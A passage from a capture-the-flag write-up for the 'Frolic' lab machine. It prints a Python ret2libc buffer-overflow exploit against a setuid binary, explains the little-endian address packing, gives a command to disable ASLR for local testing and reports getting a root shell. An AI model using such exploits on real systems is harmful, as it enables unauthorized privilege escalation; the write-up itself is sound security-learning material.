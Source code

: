 ```python
import struct

# addresses from Frolic:
"""
system_address = struct.pack("<I", 0xb7e53da0)
exit_address = struct.pack("<I", 0xaabbccdd)
string_address = struct.pack("<I", 0xb7f74a0b)
"""

# addresses from Kali to test it locally:
system_address = struct.pack("<I", 0xf7e0d980)
exit_address = struct.pack("<I", 0xaabbccdd)
string_address = struct.pack("<I", 0xf7f4daaa)

# fill the buffer with junk:
buffer = "A" * 52

# place the arguments for the call to system() on the stack, following the order defined by the calling convention:
buffer += system_address
buffer += exit_address
buffer += string_address

# finally feed the program with the malicious payload
print buffer
```

If you’re wondering what all those struct.pack functions do they convert the hexadecimal addresses we give them into little endian ("<I") arrays of bytes because we are dealing with a x86 CPU, so the little endian notation must be used. Also notice that I obtained the memory addresses of system() and of “/bin/sh” from my Kali box as well so I could test the exploit locally before uploading it, if you want to do that too you should remember to disable ASLR because it’s enabled by default on modern kernels, to do that run this command:

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

ASLR will be re-enabled automatically as soon as the system is rebooted, or you can just echo 2 instead of 0 into the same file when you’re done messing with the exploit. Let’s test it now and see if our Python script works:

![img](/images/frolic-writeup/32.png)

It does! As soon as we feed the output of our exploit to ./rop we enter a root shell! And just as we expected, exiting causes another segfault because the program is trying to jump back to the junk return address we provided.

---

## Privilege escalation using the custom exploit

Let’s upload this sexy exploit to the box after removing the comments from the original addresses and see if it works there as well:

